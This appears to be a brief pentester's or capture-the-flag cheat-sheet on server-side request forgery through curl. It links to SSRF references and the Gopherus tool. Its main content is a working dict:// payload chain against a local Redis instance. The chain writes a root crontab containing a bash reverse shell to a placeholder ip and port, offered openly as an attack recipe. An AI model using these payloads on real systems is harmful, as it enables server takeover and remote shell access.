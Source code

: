 # SSRF via Curl

Usefull links :
- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#dict
- https://infosecwriteups.com/exploiting-server-side-request-forgery-ssrf-vulnerability-faeb7ddf5d0e

Usefull tools 
- https://github.com/tarunkant/Gopherus
```bash
dict ://127.0.0.1:6379/config set dir /var/spool/cron/
dict ://127.0.0.1:6379/config set dbfilename root
dict ://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/"ip"/"port" 0>\x261\n\n\n"
dict ://127.0.0.1:6379/save
```
